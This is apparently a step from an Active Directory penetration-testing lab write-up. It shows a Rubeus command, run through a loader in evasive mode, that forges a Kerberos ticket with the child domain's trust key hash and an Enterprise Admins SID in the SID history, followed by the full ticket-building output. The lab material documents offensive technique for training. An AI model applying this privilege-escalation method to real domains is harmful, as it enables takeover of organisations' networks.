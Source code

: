 - **Forge a Silver Ticket (with EA SID History) using the Trust Key from the Child DC for Privilege Escalation**

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:d7dddee831c334082de7489882681b9c /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /ldap /user:Administrator /nowrap`:
```
[SNIP]

[*] Action: Build TGS📌

[*] Trying to query LDAP using LDAPS for user information on domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(samaccountname=Administrator)'
[*] Retrieving group and domain policy information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(|(distinguishedname=CN=Group Policy Creator Owners,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Administrators,CN=Builtin,DC=dollarcorp,DC=moneycorp,DC=local)(objectsid=S-1-5-21-719815819-3726368948-3917688648-513)(name={31B2F340-016D-11D2-945F-00C04FB984F9}))'
[*] Attempting to mount: \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL
[*] \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL successfully mounted
[*] Attempting to unmount: \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL
[*] \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL successfully unmounted
[*] Attempting to mount: \\us.dollarcorp.moneycorp.local\SYSVOL
[*] \\us.dollarcorp.moneycorp.local\SYSVOL successfully mounted
[*] Attempting to unmount: \\us.dollarcorp.moneycorp.local\SYSVOL
[*] \\us.dollarcorp.moneycorp.local\SYSVOL successfully unmounted
[*] Retrieving netbios name information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'CN=Configuration,DC=moneycorp,DC=local' for '(&(netbiosname=*)(dnsroot=dollarcorp.moneycorp.local))'
[*] Retrieving group information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(|(distinguishedname=CN=Group Policy Creator Owners,CN=Users,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Domain Admins,CN=Users,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Administrators,CN=Builtin,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(objectsid=S-1-5-21-1028785420-4100948154-1806204659-513))'
[*] Retrieving netbios name information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'CN=Configuration,DC=moneycorp,DC=local' for '(&(netbiosname=*)(dnsroot=dollarcorp.moneycorp.local))'
[*] Building PAC

[*] Domain         : DOLLARCORP.MONEYCORP.LOCAL🏛️ (dcorp)
[*] SID            : S-1-5-21-719815819-3726368948-3917688648📌
[*] UserId         : 500
[*] Groups         : 544,512,520,513
[*] ExtraSIDs      : S-1-5-21-335606122-960912869-3279953914-519📌
[*] ServiceKey     : D7DDDEE831C334082DE7489882681B9C
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : D7DDDEE831C334082DE7489882681B9C
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt📌
[*] Target         : DOLLARCORP.MONEYCORP.LOCAL

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
```